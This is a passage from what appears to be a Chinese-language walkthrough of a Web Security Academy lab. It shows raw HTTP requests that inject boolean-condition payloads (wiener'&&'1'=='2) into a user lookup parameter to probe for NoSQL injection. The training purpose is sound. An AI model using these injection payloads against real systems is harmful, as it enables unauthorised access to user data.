 ```plain
GET /user/lookup?user=wiener'%2b' HTTP/1.1
Host: 0afd005503eab6c9803617e300c00021.web-security-academy.net
Connection: close
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0afd005503eab6c9803617e300c00021.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=Lc8ZSZtslasYQslWt4B4oBMek8Pior9Q

```

![图片](assets/1711872140-62621617df63e9812069075e077baab5.webp)

Step 3：随后我们需要确定是否可以通过布尔条件来更改响应

提交用户参数中的错误条件，例如：wiener'&&'1'=='2

```plain
GET /user/lookup?user=wiener'%26%26'1'%3d%3d'2 HTTP/1.1
Host: 0afd005503eab6c9803617e300c00021.web-security-academy.net
Connection: close
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
sec-ch-ua-platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0afd005503eab6c9803617e300c00021.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=Lc8ZSZtslasYQslWt4B4oBMek8Pior9Q
```
